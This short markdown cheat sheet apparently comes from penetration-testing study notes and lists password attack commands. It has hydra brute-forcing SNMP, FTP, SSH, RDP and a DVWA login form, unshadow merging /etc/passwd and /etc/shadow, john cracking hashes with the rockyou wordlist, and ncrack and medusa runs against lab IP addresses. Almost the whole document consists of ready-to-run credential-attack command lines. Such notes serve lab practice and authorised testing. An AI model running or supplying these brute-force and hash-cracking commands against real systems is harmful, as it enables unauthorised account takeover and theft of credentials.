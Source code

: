 #### hydra
-----
```hydra -P password-file.txt -v 10.11.1.219 snmp```

```hydra -l admin -P password-file.txt -v x.x.x.x ftp```

```hydra -l root -P password-file.txt x.x.x.x ssh```

```hydra -l admin -P /usr/share/dirb/wordlists/small.txt 192.168.1.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V```


#### john
-----
*unshadow /etc/passwd /etc/shadow > /tmp/unshadowed*

```john --wordlist=/usr/share/wordlists/rockyou.txt /tmp/unshadowed```

```john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt ntlm.hash```


#### rdp
-----
```ncrack -vv --user offsec -P password-file.txt rdp://10.11.1.35```

```hydra -t 1 -l username -p password1! rdp://192.168.190.130```


#### medusa
-----

```medusa -h 10.11.1.219 -u admin -P password-file.txt -M http -m DIR:/admin -T 10```